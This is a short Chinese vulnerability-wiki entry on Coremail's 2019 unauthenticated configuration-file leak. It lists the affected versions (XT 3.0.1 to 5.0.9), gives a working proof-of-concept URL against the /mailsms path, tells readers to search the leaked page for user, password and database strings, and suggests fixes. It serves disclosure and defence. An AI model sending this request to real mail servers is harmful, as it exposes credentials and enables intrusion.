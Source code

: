 Coremail配置文件信息泄漏
========================

一、漏洞简介
------------

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news\_x/article\_id/32641.htm

二、漏洞影响
------------

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

三、复现过程
------------

### POC

    http://mail.0-sec.org/mailsms/s?func=ADMIN:appState&dumpConfig=/

输入Poc访问漏洞页面发现信息泄露页面内搜索user，password，database等关键字如下图

![](/Users/aresx/Documents/VulWiki/.resource/Coremail配置文件信息泄漏/media/rId25.png)

### 四、修复建议

1、在不影响使用的情况下，仅允许VPN连接后才可访问；

2、在Web服务器（nginx/apache）上限制外网对 /mailsms
路径的访问。建议使用Coremail构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。
